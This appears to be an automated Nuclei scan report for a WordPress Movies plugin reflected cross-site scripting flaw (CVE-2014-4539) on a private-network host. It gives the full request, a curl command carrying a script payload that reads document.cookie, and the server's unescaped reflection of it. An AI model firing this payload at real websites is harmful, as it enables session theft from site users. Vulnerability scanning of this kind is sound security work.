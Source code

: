### Movies <= 0.6 - Unauthenticated Reflected Cross-Site Scripting (CVE-2014-4539) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2014-4539**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/movies/getid3/demos/demo.mimeonly.php?filename=filename%27%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E&

**Timestamp**: Wed Jun 8 20:22:06 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Movies <= 0.6 - Unauthenticated Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2014, wordpress, wp-plugin, xss |
| Severity | medium |
| Description | A cross-site scripting vulnerability in the Movies plugin 0.6 and earlier for WordPress allows remote attackers to inject arbitrary web script or HTML via the filename parameter to getid3/demos/demo.mimeonly.php. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2014-4539](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-4539) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/movies/getid3/demos/demo.mimeonly.php?filename=filename%27%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E& HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 258
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/movies/getid3/demos/demo.mimeonly.php?filename=filename'><script>alert(document.cookie)</script>&</B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/d6ea4fe6-c486-415d-8f6d-57ea2f149304
- https://nvd.nist.gov/vuln/detail/cve-2014-4539
- http://codevigilant.com/disclosure/wp-plugin-movies-a3-cross-site-scripting-xss

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/movies/getid3/demos/demo.mimeonly.php?filename=filename%27%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E&'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)